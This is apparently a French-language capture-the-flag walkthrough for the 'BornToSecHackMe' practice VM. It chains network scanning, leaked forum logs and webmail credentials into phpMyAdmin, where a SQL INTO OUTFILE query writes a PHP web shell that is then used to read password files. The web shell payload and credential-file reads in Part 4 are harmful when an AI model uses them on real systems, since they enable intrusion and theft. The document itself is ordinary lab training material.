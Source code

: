 
### Part 1: Setup

Activer dans vitualbox -> settings -> network  => attach to : __host-only adapter__

Lancer la machine et recuperer l'ip depuis un trerminal: 

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ ifconfig
...
vboxnet0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.1  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::800:27ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 0a:00:27:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1055  bytes 46766 (45.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


```

Ici l'ip est : __192.168.56.1__

Toujours depuis le terminal, on vas utiliser __nmap__ pour check tout les port ouvert sur la machine:

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ nmap 192.168.56.0/24
...
Nmap scan report for 192.168.56.101
Host is up (0.00068s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
...
```

On ce rend compte que sur l'adresse __192.168.56.101__ les ports https/http ssh et ftp sont ouvert

---

### Part 2: Forum

Vue que l'on viens de voir que les ports 80 et 443 sont ouvert, on peux check si un site tourne sur la machine.

Ce qui est le cas. On peux y acceder avec  http://192.168.56.101/

La home page nous apporte rien, du coup depuis une distribution Kali Linux on utilise la commande __dirb__ qui vas nous servir a mapper le site de la machine et voir si des routes existe. 

On test sur le port 80 et 443.

Http:
```bash
┌──(jdamoise㉿vbox)-[~]
└─$ dirb http://192.168.56.101 -r
...
DIRECTORY: http://192.168.56.101/fonts/
+ http://192.168.56.101/forum (CODE:403|SIZE:287)                           
+ http://192.168.56.101/index.html (CODE:200|SIZE:1025)                     
+ http://192.168.56.101/server-status (CODE:403|SIZE:295)                   
                                                                               
-----------------
END_TIME: Wed Jul 23 19:14:43 2025
DOWNLOADED: 4612 - FOUND: 4

```

Https:
```bash 
┌──(jdamoise㉿vbox)-[~]
└─$ dirb https://192.168.56.101 -r
...                                                                       
DIRECTORY: https://192.168.56.101/forum/
DIRECTORY: https://192.168.56.101/phpmyadmin/
+ https://192.168.56.101/server-status (CODE:403|SIZE:296)
DIRECTORY: https://192.168.56.101/webmail/                                                                                       
                                                                                                                                     
-----------------
END_TIME: Wed Jul 23 19:15:53 2025
DOWNLOADED: 4612 - FOUND: 2

```

On ce rend compte que sur le port 443 le site a trois service 
 - forum
 - phpmyadmin
 - webmail

On vas donc ce rendre sur https://192.168.56.101/forum depuis notre navigateur et on ce rend compte qu'une page nommer __probleme login ?__ existe.

Cette page contient plein de logs de connection, on cherche donc dedans pour trouver si un mdp si trouve

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ curl -k https://192.168.56.101/forum/index.php?id=6 | grep "invalid"
...
Oct  5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />
... 

```
On ce rend compte qu'un mdp a ete passer a la place d'un user. user qui est lmeard (que l'on peut retrouver en haut de la page)

On ce connecte au user et dans sont profil on trouve sont adresse mail : laurie@borntosec.net

---
### Part 3: Mail

Avec l'adresse mail nous allons donc sur le service : https://192.168.56.101/webmail

On rentre l'adresse mail comme username et le mdp que l'on a recuperer au prealable ce qui nous connect a la boite mail.

On y trouve deux mail:
 -  DB access
 - Very interesting !!!!

Il  n'y a que le premier mail qui nous interesse.
Dans ce mail on recupere user et un mdp pour ce connecter a une DB :
 - user : __root__
 - pwd: __Fg-'kKXBj87E:aJ$__

---
### Part 4: PHPMyAdmin

Nous allons donc avec ce user acceder au service : https://192.168.56.101/phpmyadmin


depuis PHPmyAdmin on peux executer une injection SQL pour creer une route qui nous executera une command sur le server.

on execute cette commande 

```SQL
SELECT "<pre><?php system($_GET['cmd'])?></pre>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

une fois que cette commande a etait executer on peux utiliser la route /forum/templates_c/shell.php?cmd=... pour recuperer des data sur le server 

depuis le navigateur on execute https://192.168.56.101/forum/templates_c/shell.php?cmd=find+/home

ce qui nous donne 

```
/home
/home/LOOKATME
/home/LOOKATME/password
/home/ft_root
/home/laurie
/home/laurie@borntosec.net
/home/lmezard
/home/thor
/home/zaz
```

on execute ensuite https://192.168.56.101/forum/templates_c/shell.php?cmd=cat /home/LOOKATME/password

et on obtient:

```
lmezard:G!@M6f4Eatau{sF"
```

---
### Part 5: FTP

le user et le mdp que l'on viens de recuperer nous donne access a ftp 

on recupere tout ce qu'il y a dedans avec :

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ ftp lmezard@192.168.56.101
Connected to 192.168.56.101.
220 Welcome on this server
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||7707|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> mget *
mget README [anpqy?]? a
Prompting off for duration of mget.
229 Entering Extended Passive Mode (|||55507|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |*****************************************************************************************|    96      131.30 KiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (39.02 KiB/s)
229 Entering Extended Passive Mode (|||18340|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |*****************************************************************************************|   790 KiB   26.85 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (26.14 MiB/s)

```

on fait un __file__ sur les deux object de l'on trouve

```bash
┌──(jdamoise㉿vbox)-[~]
└─$ file fun README           
fun:    POSIX tar archive (GNU)
README: ASCII text

```

on ce rend compte que fun et un tar du coup on extrait ce qu'il y a dedan

```bash
tar -xf fun
```

dans __fun__ on trouve __ft_fun__ qui contient plein de fichier .pcap contenant du code C.

Objectif vas etre de recreer le programme et de le lancer pour ce faire on utilise un script

```bash
┌──(jdamoise㉿vbox)-[~/ft_fun]
touch pcap_compile.sh                                             
chmod 777 pcap_compile.sh 
./pcap_compile.sh 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit  
```

on obtient un pwd en SHA-256 il nous reste plus cas le decripter

```bash
┌──(jdamoise㉿vbox)-[~/ft_fun]
└─$ echo -n Iheartpwnage | shasum -a256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

on obtient donc le mdp de laurie pour ce connecter en ssh a la machine.

